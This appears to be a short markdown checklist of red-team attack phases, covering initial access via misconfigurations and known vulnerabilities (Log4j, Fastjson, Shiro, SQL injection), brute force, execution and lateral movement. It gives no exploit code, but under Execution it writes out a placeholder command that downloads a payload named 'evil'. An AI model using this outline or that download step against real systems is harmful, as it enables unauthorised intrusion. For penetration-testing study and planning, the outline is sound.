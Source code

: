 ## Initial Access
### 1. Misconfigure
- Nginx config
  - files: config / history / codes / authorization /
  - upload

- Spingboot Actuator
- Cloud Service

### 2. Vulnerability
- SQL Injection : [clickhouse](https://blog.deteact.com/yandex-clickhouse-injection/)
- Open-source Nday:
  - Fastjson
  - Log4j
  - Shiro
- Third-party products Nday:
- XSS : POST / DOM 
- File upload : 

### 3. API Pentest
- sensitive APIs in js files
- path brute-force : wordlists

### 4. Open port
- high-risk brute-force
- sensitive ports
  - Unauthorization Access
  - Specific scene
- JRMP/[JMX](https://www.anquanke.com/post/id/200682)/RMI 


## Execution
- curl xxx/xx -o evil
- 

## Lateral move
- trust relationship : ssh
- portscan : ssh/redis/web
- 

## Reference
- [RedTeam-Tools_github](https://github.com/A-poc/RedTeam-Tools)
